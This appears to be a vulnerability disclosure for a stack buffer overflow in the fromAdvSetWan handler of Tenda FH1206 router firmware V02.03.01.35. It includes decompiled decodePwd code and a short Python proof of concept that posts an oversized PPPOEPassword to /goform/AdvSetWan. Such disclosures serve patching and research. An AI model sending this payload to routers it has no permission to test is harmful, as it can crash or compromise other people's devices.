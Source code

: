 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromAdvSetWan` function. This function accepts the `wanmode` and parameter from a POST request. Within `case 2`, this function accepts the `PPPOEPassword` parameter from a POST request, which is assigned to `decodePwd(v16, v52);`. However, since the user has control over the input of `PPPOEPassword`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPPOEPassword` can exceed the capacity of the `v52` array, thus triggering this security vulnerability.

![image-20240802202912170](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802202912170.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/AdvSetWan"
payload = b"a"*1000

data = {"wanmode":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)